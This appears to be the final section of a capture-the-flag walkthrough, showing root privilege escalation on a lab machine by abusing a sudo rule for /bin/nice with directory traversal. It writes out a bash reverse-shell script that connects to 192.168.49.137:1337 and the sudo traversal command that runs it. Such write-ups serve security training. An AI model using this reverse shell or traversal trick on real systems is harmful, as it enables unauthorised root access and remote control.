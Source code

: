 ![image](https://user-images.githubusercontent.com/69868171/160806367-429ec6f6-560f-4f7f-894c-ec7d3f2c6871.png)

Now we have the `local.txt` now let root it.

### Privilege Escalation

Now let check `sudo -l` 

![image](https://user-images.githubusercontent.com/69868171/160806920-2009ee4d-c2d8-4eff-8e4d-4c8dd14e96fc.png)

Nice seems we can run `/bin/nice /notes/*` with `sudo` let see what we can do. It should be possible for us to use `directory traversal` to access some files or execute a command out of the `notes` directory.

Preparing our payload.
```
webadmin@serv:/tmp$ nano shell.sh
webadmin@serv:/tmp$ chmod 777 shell.sh
webadmin@serv:/tmp$ cat shell.sh
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/192.168.49.137/1337 0>&1'
webadmin@serv:/tmp$ 
```

Now let start our listener.

![image](https://user-images.githubusercontent.com/69868171/160809723-37ec592c-6e39-473a-af2a-4bb318ccbc78.png)

Now let run it.

```
webadmin@serv:/tmp$ sudo /bin/nice /notes/../../../../../tmp/shell.sh
```

Now back to our listener and boom we have root shell.

![image](https://user-images.githubusercontent.com/69868171/160810122-c94dfcc5-2913-4798-a77b-1b0527bfdeb5.png)

Boom we are root done and dusted.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
